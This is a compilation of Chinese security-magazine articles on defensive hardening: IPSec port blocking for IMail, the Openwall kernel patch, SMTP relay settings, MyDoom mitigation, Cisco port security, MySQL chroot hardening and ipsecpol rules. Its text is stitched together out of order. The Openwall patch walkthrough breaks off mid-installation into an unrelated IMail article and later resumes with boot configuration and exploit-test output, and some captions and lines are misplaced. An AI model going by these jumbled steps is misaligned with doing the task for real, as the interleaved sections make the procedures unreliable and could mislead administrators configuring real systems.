使用 IPSEC 将 8383 端口过滤掉。具体操作步骤如下：点击“开始 -> 运行 -> gpedit.msc -> 计算机配置 -> Windows 设置 -> IP 安全策略，在本地”，如图1所示。

然后右键单击选择“创建新的 IP 安全策略”，点“下一步”，给安全策略起个名字，这里起的是“防御 IMail 攻击”，一路“下一步”，最后完成，就出现了该策略的属性编辑窗口，如图2所示。

单击下面的“添加”按钮，弹出安全规则向导，点击“下一步”直到出现“网络类型”，选择“远程访问”，连续点击“下一步”，会弹出一个警告框，不管它，单击“是”继续，就会出现 IP 筛选器列表，如图3所示。

单击“添加”按钮，添加筛选器，名称为“阻止 8383 端口的访问”；再单击“添加”，出现筛选器向导，点击“下一步”，在源地址选择“任何 IP 地址”，再点击“下一步”，目标 IP 地址选择“我的 IP 地址”，协议类型选择“任意”或者“TCP”，出现 IP 协议端口后，选择“从任意端口”，到此端口输入“8383”，完成后就回到了 IP 筛选器列表窗口，选择关闭，回到安全规则向导窗口，这时你会发现列表里多了一个我们刚才添加的筛选器。

然后来到“筛选器操作”选择窗口，单击“添加”，来到筛选器操作向导，点击“下一步”，起一个名称“拒绝 8383 端口的访问”，选择“阻止”单选钮，单击完成回到“筛选器操作选择”窗口，选择我们刚才建立的筛选器操作，然后点击“下一步”完成，回到“防御 IMail 攻击”属性窗口，选择关闭。

回到组策略窗口，在右边窗口里出现了我们刚创建的 IP 规则，右键单击它，选择“指派”，我们的规则就生效了，如图4所示。

整个过程就算完成了。这个时候 IP 安全策略生效，并开始忠实地守护 8383 端口，任何远程连接都将被拒绝。你的 IMail 也被保住了。


图1


图2


图3


图4

此种方法比起第一种方法来麻烦了点，而且可定制的规则太少，但是不需要第三方软件来支持，选择哪个就看你的喜好了。

不过我还是觉得，最好升级一下你的 IMail，这才是彻底解决问题的根本方法。

> 编后：未来服务器的操作系统安全面临着全面挑战。很多漏洞看起来似乎围绕全局，其实并不然；如果在细微处不注意安全措施的话，一个不起眼的疏忽往往就会造成千里之堤，毁于蚁穴。

---

脚本小子，对于更改操作系统的设置和激活操作系统本身提供的安全开关来提高安全性的方法已经有过相当多的讨论。事实上，在有新的漏洞产生时这些方法显得很脆弱。虽然我们不能指望程序员从根源上解决安全问题，但是我们应该了解底层的安全才是核心。本文以 Linux 为例，从内核的角度来讨论安全防御的特别类别——安全免疫。

## OW 补丁，让 Linux 内核变安全

普通的安全设置固然可以提高服务器的安全性，这也是很多系统管理员熟知的，但是在很多情况下这对攻击者来说并不管用……事实上高级的安全设置应该具有一定攻击免疫能力，比如用 StackGuard 编译的 Immunix 系统。而本文从相关的例子引出这种概念，你会发现在某些场合“攻击免疫”比普通意义上的安全防护更有效，当然这并不是全部，安全是一个整体的概念。

```c
#ifdef CONFIG_HARDEN_STACK
  .quad 0x00cbfa000000ffff  /* ... */
  0x23, user, 3GB-8MB code_at 0/* ... */
#else
  .quad 0x00cffa000000ffff  /* ... */
  0x23, user, 4GB code_at 0x00000000 /* ... */
#endif
```

然后企图返回用户区最高 8MB 空间（堆栈区间）去执行指令的行为都会被拦截，这通常是溢出攻击返回执行 shellcode 的特征！关于不可执行堆栈还有另外一个开关：CONFIG_HARDEN_STACK_SMART……一般来说我可以不使用这个选项。

学过缓冲区溢出的人应该都知道 Solar Designer's kernel patch，这个补丁是 Openwall project 的一部分，它的特性如下：

- Ring3 层堆栈不可执行。
- 限制 /tmp 目录下的符号连接。
- 限制 /tmp 目录下的 FIFO。
- 限制 /proc 目录权限，非 root 用户只能看到自己进程的子目录。
- 对 0、1、2 三个文件描述符的特殊处理（只针对 kernel 2.0-2.2）。
- 加强 execve 系统调用对用户进程数目的限制，在 fork 该进程而改变进程属主时仍然有效。
- 撤销不再使用的共享内存区域（在限制资源如 RLIMIT_AS、RLIMIT_NPROC 时效果明显）。
- 特权 IP 别名，只有 root 才可以在特权别名范围内绑定套接字（只对 kernel 2.0）。

该补丁最主要的特性是：用户区堆栈不可执行（Non-executable User Stack）。在 Intel x86（32 位非 PAE 模式）平台上，用户区数据段和代码段的虚拟地址范围是 0～3GB，作者通过把代码段的虚拟地址减小为 3GB-8MB 来区分数据段和代码段。

### 安装

该补丁可以从 http://www.openwall.com/linux/ 下载。我们选择最新的 linux-2.4.24-ow1.tar.gz，然后从 kernel.org 下载 linux-2.4.24.tar.gz 内核源代码包，先把内核源代码解压到：/usr/src/linux-2.4.24，然后解压补丁包，linux-2.4.24-ow1.diff 就是我们要的补丁文件。然后开始打补丁：

```bash
[root@ay4z3ro /]# cd /usr/src/linux-2.4.24
[root@ay4z3ro linux-2.4.24]# patch -p1 < ../linux-2.4.24-ow1/linux-2.4.24-ow1.diff
```

接下来按部就班地编译内核：make mrproper; make menuconfig; make dep; make bzImage; make modules; make modules_install。然后编辑 lilo：

```bash
# cp /usr/src/linux/arch/i386/boot/bzImage /boot/vmlinuz-2.4.24-ow1
# vim /etc/lilo.conf
# 加入以下项...
```

脚本小子：作为流行的 E-mail 服务系统，IMail 有着自身的安全设置，如何对其进行有效的设置，提高邮件以及系统本身的安全性是一个重要的安全问题。本文从新的角度去考虑了防护，所以很值得一看！

## 给 IMail 系统 SMTP 的安全性

IMail 是一个流行的电子邮件服务器，通过 Web 接口为客户提供邮件服务。并且 IMail 与大多数常见的电子邮件协议兼容，例如：SMTP、POP3、IMAP4、LDAP 等。但它存在缓冲区溢出漏洞，问题在于 IMail SMTP 守护进程在处理输入数据时没有进行正确的边界检查。远程攻击者利用这点能使 IMail SMTP 服务器发生缓冲区溢出，从而执行攻击者提供的代码。

我们可以自己手动设置自己的邮件服务器和管理 SMTP 协议的安全性，从而达到对漏洞防护的目的：

- 设置邮件中转选项，防止成为大量垃圾邮件的中转站。
- 设置什么是本地用户。
- 验证收到的邮件。核查是否来自一个有效的用户，或者拒绝将它列入邮件清单。
- 设置 IP 地址，或者列一个 IP 地址清单给服务器，说明哪些可以接受，哪些拒绝接收。

```bash
image=/boot/vmlinuz-2.4.24-owl
label=linux-2.4.24-owl
root=/dev/hda6
read-only
# reboot
```

现在可以用我们的新内核启动了，来测试一下吧 :)

```bash
Mandrake Linux release 9.2 (FiveStar) for i586
Kernel 2.4.24-owl on an i686 / tty1
login: root
Password:
[root@test]# cd ./test/
[root@test]# ls
core1201 core1665 ... ex* exp*
```

其中 vu 是存在漏洞的程序，ex 是与之对应的溢出攻击程序。

```bash
[root@test]# ./ex
ret is 0xbfffffcb
Security: more returns onto stack, logging disabled for a minute
```

```bash
Segmentation fault (core dumped)
[root@test]# tail -1 /var/log/messages
... kernel: Security: more returns onto stack, logging disabled for a minute
[root@test]# tail -1 /var/log/kernel/alert
... Kernel Security: return onto stack ... UID 0, EUID 0, process vu
```

我们看到攻击被成功地阻止了，并且发出了警告！这个补丁的确给大多数栈溢出带来影响，但 heap/bss 溢出仍可能绕过。总的来说，这类防护并非绝对有效，但能显著增加攻击难度。该补丁与系统管理的常规安全措施结合会有较好的效果，推荐使用。

> 编后语：有兴趣的读者可以参阅《Warning3》《Phrack58》中的 Return-into-lib(c) 技术，及其触发告警机制的相关讨论。

## 如何对 SMTP 进行设置

- 双击控制面板里的 IMail 图标，在出现的 IMail 服务对话框里选择 SMTP 安全选项，这时出现 SMTP 安全属性对话框。
- 在这个安全属性对话框中，对 SMTP 服务无论哪一个选项都设置成安全。
- 点击应用并保存设置，关闭对话框。

注意：假如你用 SMTP 服务改变 IP 地址，你必须先关闭 SMTP 服务并重启，系统才对设置生效。

## 设置邮件中转选项

用邮件中转选项可以防止大量未经授权的邮件投递，例如大家都知道的垃圾邮件。它可能将你的邮件系统变成垃圾邮件的中继器。邮件中转选项应设置成只允许本地用户，或者使用本地主机的用户通过自己的服务器中转。在这之前要设定什么是本地。

### 1. 中转对任何人

允许 SMTP 服务接受投递给其他主机的邮件，还可以再投递给其他适当的主机。这是邮件系统的缺省设置。

### 2. 中转选项

假如邮件系统认为邮件是来自本地指定的 IP 地址时，就仅允许接受去往其他主机的邮件。假如你用这个选项，你要指定任何你接受邮件的主机，也要建立一个记录在 `\winnt\system32\drivers\etc\hosts` 文件里。假如你的 DNS 设置成接受邮件对第一位域（mailer1.ipswitch.com），或者也接受其他的域（mailer2.acme.com），MX 将如下这样记录：

| MX | 记录 |
|---|---|
| 10 | mailer1.ipswitch.com |
| 20 | mailer2.acme.com |
| 3. | 中转邮件对域（mailer2.acme.com） |

- 在邮件系统上，你需要指定它的 IP 地址在中转选项（Relay mail for）里，登录主机名，IP 地址在主机文件里。

指定有效的 IP 地址，点地址（Addresses）按钮。

- 点添加（Add）按钮，增加/接受本地用户。
- 在 IP 地址栏里，添加对于邮件系统是本地的 IP 地址。添加一个计算机组，选择计算机组（Group of Computers）选项，在 IP 地址和子网掩码栏里，添加一些考虑过安全性的本地 IP 地址。非本地系统企图传递邮件就可能出现如下消息：

```text
550 unknown local host %s, not a gateway.
```

## 设置使用 SMTP 服务

可以设置指定的 IP 地址使用 SMTP 或者拒绝使用。对没有权限使用系统的主机，邮件系统将拒绝建立连接。

这非常有用，它可以知道一个未经授权邮件发送人的 IP 地址。

### 1. 拒绝一个指定的组或者计算机

- 点击控制权限（Control access）并选择 Granted Access 选项。
- 在 IP 地址栏里，输入不能访问 SMTP 服务的 IP 地址。拒绝一个组计算机，可选择 Group of Computers 选项。例如，一个 C 类地址为 218.21.50.0，子网掩码为 255.255.255.0。这样就可以阻止 254 个系统。
- 点击“确定”，重启服务后改变的设置才可以生效。

### 2. 有权限使用的组或者计算机

- 点击 Control access 选项，在出现的对话框里选择 Denied Access 选项。
- 点添加（Add）。在设置之前，也要关闭服务，在重启服务以后，设置才可以生效。

> **总结**
>
> 邮件系统的安全是非常重要的。垃圾邮件的传播者就是利用一些公司的邮件服务器来发送他们的垃圾邮件，但是由于中转特性，控制邮件服务器不被人利用，可节约金钱和网络资源，阻止不受欢迎的邮件，继而防止系统变成垃圾邮件的“中转站”。希望文章对大家有所帮助。

## tips: 防范 MyDoom 病毒

MyDoom 病毒是一种依赖于 Windows 操作系统的蠕虫病毒，它通过电子邮件传播。目前，绝大多数提供 mail 服务的网站都是通过过滤邮件标题进行此种病毒的防范。同时，由于它本身能在服务器上生成后门，所以又让我们的网络管理员非常头疼，可以通过下面的方法防范这个病毒。

首先，病毒在受感染的机器上打开 tcp 3127-3198 端口作为监听端口，所以我们的防火墙需对 tcp 端口 3127-3198 的访问进行阻断或者封禁。其次，使用某些防火墙 IDS 的自动封禁功能，对每秒钟 7 次以上的 syn 连接进行自动封禁，从而防止后门程序对 www.sco.com 的 DDoS 攻击。第三，可以在邮件服务器上通过对邮件的标题、内容、附件名以及附件扩展名进行过滤，有效防止带有该病毒邮件的传播。

防火墙对于病毒只能进行阻断传播，减少其对网络的危害。真正杀死病毒还需依靠相应的杀毒软件。但防火墙起到的是防患于未然的作用，所以很好地利用防火墙进行网络病毒防护，能最大限度减少网络蠕虫病毒给用户以及全社会带来的巨大经济损失。

## 以太网第二层协议（漏洞攻击防范）


《上册》中我们谈到了针对以太网第二层协议的 3 种攻击方法。由于第二层协议位于 IP 层之下，因此其安全性也没有得到充分的重视。这 3 种攻击都能够实现，而且作者曾遇到和处理过类似攻击。这里给出一些缓解攻击效果的方法，这些方法能够较有效地缓解《上册》中提到的上述攻击。

为了阻止这样的攻击成功，可以采用下面几个简单的交换机策略（均以 Cisco 系列为例）。对于第一种攻击，简单地说，就是绑定 MAC 能够出现的端口，然而这也意味着丧失一定的灵活性（一旦更换端口，则端口被 shutdown）。操作如下：

```bash
set port security 2/1 enable 00-90-2b-03-34-c8
set port security 2/1 age 1440
set port security 2/1 violation shutdown 600
```

前两个命令将 MAC 地址绑定到 2/1 端口上，最后一个命令的含义是如果 2/1 端口和其他端口已经绑定的 MAC 发生重复，则将其关闭 600 分钟。

> 脚本小子注：关闭（shutdown）端口是一个非常严厉的措施，也许并不适合所有网络配置。可以把 shutdown 替换为 restrict，让交换机丢弃可能存在问题的数据包，而让其他包通过，以减少交换机级联失败的情况；当然这意味着可能会损失一定的安全性。

针对第三种攻击，需要在每一台机器上设置网关的永久 MAC 记录（在绝大多数操作系统中，这一工作可以通过 `arp -s` 来完成）。例如：

```bash
arp -s 192.168.1.1 ab:aa:79:f8:ab:37
```

另一种方法，则是使用 SSL 或 TLS 连接，并验证证书。然而，这需要服务器端的支持，并且劫持者仍然可以中断或者干扰连接，尽管他们无法获得通信的真实内容。

针对第二种攻击，可以在结合前两项措施的基础上，限制每个端口上可以学习的 MAC 地址数量（前提是攻击者不可能控制许多端口）：

```bash
set port security 1/2 maximum 5
```

这个命令将端口 1/2 可以学习的 MAC 数量限制为 5 个，这样攻击者将无法耗尽 CAM。在我们介绍的 3 种攻击中，防守一方都处于劣势。为了提高安全性，必须降低系统的灵活性，并增加配置成本。第二层安全在网络规划和设计中是不能忽略的部分。

## TIPS：网络七层协议

七层协议自上而下分别是：应用层、表达层、会话层、传送层、网络层、数据链路层以及物理层。

物理层（The Physical Layer）主要指如何确保在物理媒体上的传输；数据链路层（The Data Link Layer）主要是组织数据并处理应答帧；网络层（The Network Layer）主要控制源到目的地路径；传送层（The Transport Layer）负责分段与端到端传输；会话层（The Session Layer）建立与管理会话；表达层（The Presentation Layer）处理数据表示与语义；应用层（The Application Layer）包含各种应用协议。

| 难度等级 | 中 |
|---|---|
| 适合读者 | 数据库管理员 |
| 前置知识 | MySQL 基础 |

MySQL 是互联网中常用数据库之一，常与 PHP 配合使用。其默认安装在安全性上存在隐患（如空管理密码、缓冲区溢出等），因此需要通过基础加固步骤来降低内外部攻击风险。


本文实验环境假设 PHP 模块已安装在 Apache 服务器中，目录位于 `/chroot/httpd`。同时约定：MySQL 仅被本机 PHP 使用；默认管理工具（如 `mysqladmin`、`mysql`、`mysqldump`）用于管理；远程备份通过 SSH 执行。

- MySQL 数据库仅被同主机 PHP 使用
- 默认管理工具（`mysqladmin`、`mysql`、`mysqldump`）用于管理
- 远程备份使用 SSH
- 安装与配置应满足安全要求

```bash
./configure --with-mysqld-ldflags=-all-static
make
su
make install
strip /usr/local/mysql/libexec/mysqld
scripts/mysql_install_db
chown -R root /usr/local/mysql
chown -R mysql /usr/local/mysql/var
chgrp -R mysql /usr/local/mysql
```

在 Apache 环境安装 MySQL 时，流程与常规手工安装基本一致，重点在 `configure` 参数（如静态链接）与安装路径、运行账户权限、socket 路径等安全相关设置。

- MySQL 应在修改后的默认根目录环境下运行
- MySQL 进程应使用系统中唯一 UID/GID
- 访问限制为本地
- 根账户密码应不易猜测
- 禁止数据库匿名访问
- 删除系统自带示例数据库与表

### 安装 MySQL

在开始安全加固前，先在服务器安装 MySQL，并创建与数据库相关联的专用组和用户账号。

```bash
pw groupadd mysql
pw useradd mysql -c "MySQL Server" -d /dev/null -g mysql -s /sbin/nologin
```

### 1. 编译 MySQL

在 `/usr/local/mysql` 目录下编译与安装 MySQL 软件。

```bash
./configure --prefix=/usr/local/mysql --with-mysqld-user=mysql --with-unix-socket-path=/tmp/mysql.sock ...
```

### 2. 拷贝配置文件

执行安装命令后，将默认配置文件拷贝为目标配置并调整权限。

```bash
cp support-files/my-medium.cnf /etc/my.cnf
chown root:sys /etc/my.cnf
chmod 644 /etc/my.cnf
```

### 3. 启动服务器

安装完成后，执行命令启动 MySQL 服务。

```bash
/usr/local/mysql/bin/mysqld_safe &
```

### 4. 测试连接

尝试建立数据库连接并验证是否成功。

```bash
/usr/local/mysql/bin/mysql -u root mysql
```

若连接成功，将显示 MySQL 监视器欢迎信息及连接 ID、版本等内容。

```text
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is ...
```

```text
mysql> log
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

然后，我们就可以看看本机上有哪些数据库，如下所示：

```text
mysql> show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
+----------+
2 rows in set (0.00 sec)
```

然后退出当前命令，使用如下命令：

```text
mysql> quit
```

一旦连接成功建立，我们就可以通过如下命令关闭数据库：

```bash
/usr/local/mysql/bin/mysqladmin -u root shutdown
```

如果不这样做，我们就应该分析一下存储在 `/usr/local/mysql/var/hostname.err` 日志文件中的信息，以消除导致问题的因素。

## 改变服务器的默认根目录

接下来的第一步就是准备 chrooted 环境，以使 MySQL 服务能够运行。这里的目标操作系统是 FreeBSD 4.7。然而，本文中所讲授的方法同样适用于大多数 UNIX 和类 UNIX 系统。

### 1. 准备 chroot 环境

为准备 chrooted 环境，我们必须创建如下的目录：

```bash
mkdir -p /chroot/mysql/dev
mkdir -p /chroot/mysql/etc
mkdir -p /chroot/mysql/tmp
mkdir -p /chroot/mysql/var/tmp
mkdir -p /chroot/mysql/usr/local/mysql/libexec
mkdir -p /chroot/mysql/usr/local/mysql/share/mysql/english
```

### 2. 设置访问权限

上面对目录的访问权限应如下设置：

```bash
chown -R root:sys /chroot/mysql
chmod -R 755 /chroot/mysql
chmod 1777 /chroot/mysql/tmp
```

### 3. 创建目录结构

接下来，下面这些文件应该拷贝到新的目录中：

```bash
cp /usr/local/mysql/libexec/mysqld /chroot/mysql/usr/local/mysql/libexec/
cp /usr/local/mysql/share/mysql/english/errmsg.sys ...
cp /etc/hosts /chroot/mysql/etc/
cp /etc/host.conf /chroot/mysql/etc/
cp /etc/resolv.conf /chroot/mysql/etc/
cp /etc/group /chroot/mysql/etc/
cp /etc/master.passwd /chroot/mysql/etc/passwords
cp /etc/my.cnf /chroot/mysql/etc/
```

### 4. 强化密码和组

我们必须从文件 `/chroot/mysql/etc/passwords` 和 `/chroot/mysql/etc/group` 里删除除了账户和组以外的行。接下来，还应该按如下方法 build 密码数据库：

```bash
cd /chroot/mysql/etc/
pwd_mkdb -d /chroot/mysql/etc passwords
rm -f /chroot/mysql/etc/master.passwd
```

### 5. 特殊考虑

在 Apache Web 服务器上，我们还必须创建一个特殊的设备文件 `/dev/null`：

```bash
ls -al /dev/null
```

系统将显示如下信息：

```text
crw-rw-rw- 1 root sys 2, 2 Jun 21 18:31 /dev/null
```

然后，再使用如下命令：

```bash
mknod /chroot/mysql/dev/null c 2 2
chown root:sys /chroot/mysql/dev/null
chmod 666 /chroot/mysql/dev/null
```

我们还必须拷贝那些包含在 MySQL 安装过程中创建的授权表的 mysql 数据库：

```bash
cp -R /usr/local/mysql/var /chroot/mysql/usr/local/mysql/var
chown -R mysql:mysql /chroot/mysql/usr/local/mysql/var
```

### 6. 本地化

如果主机上使用的默认语言不是英语，我们还应该拷贝合适的字符集，可以在目录 `/usr/local/mysql/share/mysql/charset` 下找到。

### 7. 测试配置

现在，MySQL 应该可以在 chrooted 环境中运行了。我们可以通过下面这个命令来验证一下它是否能正确运行：

```bash
chrootuid /chroot/mysql mysql /usr/local/mysql/libexec/mysqld &
```

如果在执行了上面的命令后出现错误，我们应该使用 truss 命令或者具有等价功能的命令，如：ktrace/kdump、strace 等。这些命令可以帮助我们找出和消除引起问题的因素。

> 脚本小子：这里为了能够运行 mysqld 进程，使用的是 chrootuid 程序而不是 chroot 程序。因为您是在 Apache 或者 PHP 的环境下，它们两个的主要不同在于 chrootuid 可以改变执行进程的所有者。在我们的例子里面，mysqld 在一个 chrooted 环境中被执行，但是进程的所有者并不是 root，而是 mysql 用户。chrootuid 在许多操作系统里并不是默认安装的，需要我们从网上下载，然后手动安装。可以到网址 `ftp://ftp.porcupine.org/pub/security/chrootuid-3.tar.gz` 下载。

## 配置服务器

接下来的步骤，我们就要来配置数据库服务器，使之能够适合我们的安全性要求。

在假定 MySQL 进行默认安装的时候，主要的配置文件是 `/etc/my.cnf`。然而，在我们的例子里，因为是在 chrooted 环境下运行服务，所以我们就要使用两个配置文件：`/chroot/mysql/etc/my.cnf` 和 `/etc/my.cnf`。其中，前一个可被 MySQL 服务器使用，而后一个要被 MySQL 工具（如 mysqladmin、mysql、mysqldump 等）使用。

### 1. 禁止远程访问

我们知道，MySQL 默认情况下使用 TCP 的 3306 端口，所以我们首先要改变一下。因为按照我们开始的设想，数据库仅仅是让本机的 PHP 应用程序访问，所以我们可以将这个监听端口的功能禁止掉。这样就可以降低 MySQL 数据库遭受直接经由 TCP/IP 访问的外部主机攻击的可能性。同时，本地交互还可以通过 mysql.sock 套接字进行。为了能够禁止在 3306 端口上监听，我们要将参数 `skip-networking` 添加到 `/chroot/mysql/etc/my.cnf` 中的 `[mysqld]` 部分。如果有时还需要从外部访问数据库，可以按如下方法使用 SSH 协议：

```bash
backuphost$ ssh mysqlserver /usr/local/mysql/bin/mysqldump -A > backup
```

### 2. 提高本地安全性

接下来，为了防止对本地文件进行未授权访问，我们还需要禁止对 `LOAD DATA LOCAL INFILE` 命令的使用。这对于在 PHP 应用程序中发现新的 SQL 注入漏洞时，具有很好的防护作用。这里，我们需要在 `/chroot/mysql/etc/my.cnf` 的 `[mysqld]` 部分加一个参数 `set-variable=local-infile=0`。

另外，为了更方便地使用数据库管理工具，我们还必须改变 `/etc/my.cnf` 中 `[client]` 部分的参数，设置为 `socket=/chroot/mysql/tmp/mysql.sock`。这样，当我们以后再需要用到管理工具的时候，就不用每次都使用带有 `socket=/chroot/mysql/tmp/mysql.sock` 参数的命令了。

### 3. 改变管理员的密码

在加强 MySQL 安全性的这些步骤里，改变管理员密码是很重要的一步。但是，这首先需要 MySQL 运行起来，可以通过如下命令实现：

```bash
chrootuid /chroot/mysql mysql /usr/local/mysql/libexec/mysqld &
```

用下面的命令改变管理员密码：

```bash
/usr/local/mysql/bin/mysql -u root
mysql> SET PASSWORD FOR root@localhost=PASSWORD('new_password');
```

> 脚本小子：不要直接在命令行里改变密码，如使用“mysqladmin password”命令，因为这有可能被同时使用服务器的其他用户看到，从而泄露密码。比如，其他用户可以使用“ps aux”命令或者查看历史文件，就可以看到我们设置的密码。

### 4. 删除默认的数据库和用户

接下来，我们必须删除示例数据库和除 root 账户以外的所有其他账户，可以使用如下命令来实现：

```sql
mysql> drop database test;
mysql> use mysql;
mysql> delete from db;
mysql> delete from user where not (host='localhost' and user='root');
mysql> flush privileges;
```

这就可以有效阻止对数据库的匿名连接，并清除在 `/chroot/mysql/etc/my.cnf` 下与 `skip-networking` 无关的风险，从而进一步阻止远程连接。

### 5. 改变管理员的登录名称

我们同样推荐将默认管理员的账户名称修改，这样可以使外部用户很难猜测账户名称。这个改变可以有效阻止对管理员密码的暴力攻击和字典攻击。因为攻击者首先要猜出用户名，然后才能猜测密码。可以通过如下方式改变：

```sql
mysql> update user set user='mydbadmin' where user='root';
mysql> flush privileges;
```

### 6. 删除历史记录文件

最后，我们应该将 MySQL 历史文件的内容删除，因为所有执行过的 SQL 命令都被以明文形式存储在这里，很容易泄密。这可以通过如下方式实现：

```bash
cat /dev/null > ~/.mysql_history
```

## 如何在 PHP 和 MySQL 之间进行交互

因为本地的 PHP 与 MySQL 之间的交互通过 `/tmp/mysql.sock` 套接字进行，而将 PHP 放在 chrooted 环境中意味着它们之间的路径隔离。为了避免 MySQL 与 PHP 在 chroot 环境下的通信问题，需要先创建到 PHP 的 chrooted 环境的硬连接：

```bash
ln -s /chroot/mysql/tmp/mysql.sock /chroot/httpd/tmp/mysql.sock
```

> 脚本小子：`/chroot/mysql/tmp/mysql.sock` 连接到 `/chroot/httpd/tmp` 目录必须处在相同的文件系统下，否则硬连接将不能正常工作。

现在，我们要创建能够被指定 PHP 应用使用的所有数据库和账户。这些账户仅应拥有通过 PHP 应用访问数据库的权限，不应具有对 mysql 数据库访问的高权限，也不应具备系统访问和管理特权（如 FILE、GRANT、ALTER、SHOW DATABASE、RELOAD 等）。

最后，创建一个 shell 脚本以便系统启动时运行 MySQL（如 mysql.sh，放置于 `/usr/local/etc/rc.d`）。通过 chroot 环境运行数据库、禁用不必要监听、使用强密码等方式，可以显著提升 MySQL 安全性并降低来自 Web 用户侧攻击的可能性。

## 命令行下 IPSec 也疯狂

文 / 彭文波

众所周知，网络攻击常常可能导致系统崩溃以及敏感数据外泄，因此数据资源必须受到足够保护，减少被监听、篡改或非法访问。怎样做到这一点呢？在 Windows 系统下通过 IPSec 就可以方便地实现。IPSec 的全称是 Internet Protocol Security（Internet 协议安全）。一方面，它可以保护 IP 数据包的内容；另一方面，它可以通过 IPSec 筛选规则来帮助计算机免遭病毒及蠕虫等带来的网络攻击。

### 基础知识

### 1. IPSec 基础知识

实施常用的网络保护策略方式有防火墙、安全路由器（安全网关）以及对拨号用户进行身份认证等，但这些“边界保护”的重点在于抵御来自网络外部的攻击，却不能阻止网络内部的攻击行为。IPSec（Internet 协议安全）是一个工业标准网络安全协议，为 IP 网络通信提供透明的安全服务，保护 TCP/IP 通信免遭窃听和篡改，可以有效抵御网络攻击，同时保持易用性。IPSec 的两个基本目标是保护 IP 数据包安全和为抵御网络攻击提供防护措施。

IPSec 结合密码保护服务、安全协议组和动态密钥管理三者来实现上述两个目标，不仅能为企业局域网与拨号用户、域、网站、远程站点以及 Extranet 之间的通信提供强有力且灵活的保护，而且还能用来筛选特定数据流。通常，IPSec 提供的保护需要对系统做一定修改。IPSec 工作在 IP 传输层，几乎不需要额外资源，就可以为绝大多数应用系统、服务和上层协议提供较高级别的保护。

如果要为现有的应用系统和操作系统配置 IPSec，几乎无须做任何修改。通过几个简单工具、几条简单命令，安全策略就可对某台主机进行轻松管理。针对个人用户、工作组、应用系统、域、站点或跨国企业等不同的安全要求，网络安全管理员可以配置多种策略以分别满足需求。

### 2. 安装 Support Tools

在为基于 Windows 2000 的计算机创建或指定任何新的 IPSec 策略之前，需要对本地计算机进行检查，看计算机是否应用了 IPSec 策略。检查之前，可以通过安装相关工具（Support Tools）并运行 setup、netdiag 等程序进行检测。

```bash
netdiag /test:ipsec
```

如果没有指定 IPSec 策略，系统将提示相应消息（如 SHUTDOWN、PROCESS、SUPER 等）：

> IP Security test ... Passed  
> IPSec policy service is active, but no policy is assigned.

### 3. 安装 Ipsecpol

如果要进行命令配置，启用本地定义的 IPSec 策略的系统还需要安装一个软件。我们可以访问  
`http://www.microsoft.com/windows2000/techinfo/reskit/tools/existing/ipsecpol-o.asp`，下载并安装 `ipsecpol.exe`。

Ipsecpol.exe 包括在 Windows 2000 Resource Kit 中，它是一个用于创建、指派和删除 IPSec 策略的命令行实用程序。Ipsecpol.exe 非常灵活，它可在 Active Directory 以及本地和远程注册表中创建动态和静态策略。

## 命令行下配置 IPSec

打开命令提示窗口，然后将工作文件夹设置为你安装了 Ipsecpol.exe 的文件夹，默认地址为 `C:\Program Files\Resource Kit`。

### 1. 创建 IPSec 策略

相关语法如下，注意一定要使用半角字符，特别是引号和相关参数。创建新策略的语法如下：

```bash
ipsecpol -w REG -p "自定义筛选" -r "自定义协议" -f *+192.168.10.123:80:TCP -f *+192.168.10.123:443:TCP -n PASS
```

- `-w REG`：向注册表中写入静态策略。
- `-p "自定义筛选"`：创建名为“自定义筛选”的策略。
- `-r "自定义协议"`：创建名为“自定义协议”的规则。
- `-f *+192.168.10.123:80:TCP`：添加筛选器，其中 `*` 指定任何源地址和任何端口，`192.168.10.123:80` 指定目标地址和端口，`TCP` 指定协议。
- `-f *+192.168.10.123:443:TCP`：与上类似，仅端口不同。
- `-n PASS`：传递通信，而不协商安全。

### 2. 创建匹配并阻止所有通信的 IPSec 策略

```bash
ipsecpol -w REG -p "自定义筛选" -r "自定义协议" -f *+192.168.10.123 -n BLOCK
```

- `-w REG`：向注册表中写入静态策略。
- `-p "自定义筛选"`：将策略添加到名为“自定义筛选”的现有策略中。
- `-r "自定义协议"`：创建一个名为“自定义协议”的规则。
- `-f *+192.168.10.123`：添加筛选器，范围是任何源地址和任何端口，`192.168.10.123` 是指定目标地址和任何端口；协议空缺意味着使用任何协议；`+` 表明筛选器已被镜像。
- `-n BLOCK`：阻止通信。

实际使用过程中，我们还可以灵活配置。例如，如果要保证一台基于 Windows 2000 的计算机上目标端口 UDP 1434 的安全，就要阻止从任何地址和任何源端口发往它的网络通信：

```bash
ipsecpol -w REG -p "Port Define" -r "Block Inbound UDP 1434 Rule" -f *:0:1434:UDP -n BLOCK -x
```

再比如，要保证运行 Microsoft Internet 信息服务（IIS）5.0 的计算机免遭“Code Red”和“Nimda”蠕虫攻击，需要阻止对 TCP 端口 80 的入站访问，但仍允许出站 TCP 80 访问。可以键入如下命令：

```bash
ipsecpol -w REG -p "Block TCP 80 Filter" -r "Block Inbound TCP 80 Rule" -f *:0:80:TCP -n BLOCK -x
```

注意其中的 `-x` 开关可以立即指定该策略。如果输入此命令，将取消指定“Port Define”策略，并指定“Block TCP 80 Filter”。要添加但不指定该策略，在输入该命令时，结尾不带 `-x` 开关。

### 3. 命令指派 IPSec 策略

```bash
ipsecpol -w REG -p "自定义筛选" -x
```

- `-w REG`：向注册表中写入静态策略。
- `-p "自定义筛选"`：添加到名为“自定义筛选”的现有策略中。
- `-x`：指派策略。

### 4. 验证存在的 IPSec 策略

上述策略生效后，将在每次重新启动计算机后一直存在。但是，如果以后为计算机指定了基于域的 IPSec 策略，此本地策略将被覆盖并不再适用。要验证筛选规则是否已成功指定，在命令提示符窗口下，将工作文件夹设置为 `C:\Program Files\Support Tools`，然后键入以下命令：

```bash
netdiag /test:ipsec /debug
```

> IP Security test ... Passed  
> Local IPSec Policy Active: Block TCP 80 Filter  
> IP Security Policy Path: SOFTWARE\Policies\Microsoft\Windows\IPSec\Policy\Local\ipsecPolicy\{...}  
> There are: 1 filters  
> Filter Id: {...}

### 5. 取消和删除 IPSec 策略

应用静态策略时，IPSec 筛选规则有时也会导致网络程序丢失数据和停止响应网络请求，包括无法对用户进行身份验证，这时就要考虑取消筛选。在应用静态策略的计算机中，打开命令提示窗口，然后将工作文件夹设置为安装了 ipsecpol.exe 的文件夹。例如，要取消指定以前创建的“Port Define”，可以使用以下命令：

```bash
ipsecpol -w REG -p "Port Define" -y
```

